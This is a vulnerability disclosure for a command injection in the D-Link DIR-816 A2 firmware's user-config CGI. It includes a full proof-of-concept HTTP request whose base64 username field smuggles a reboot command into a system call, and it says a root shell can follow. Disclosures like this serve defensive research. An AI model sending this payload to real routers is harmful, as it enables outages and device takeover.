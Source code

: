 # D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/form2userconfig_cgi/img/vuln1.png)

username and newpass are brought into the dosystem function after base64 decryption, so there is a command injection vulnerability

## Poc

```c
POST /goform/form2userconfig.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 175
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=JztyZWJvb3Q7Jw==&oldpass=&newpass=bm9uZ25vbmc%3D&confpass=bm9uZ25vbmc%3D&modify=%E4%BF%AE%E6%94%B9&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=1804289383
```

Then you can see that the router will be restarted

Finally can write exp to get root shell
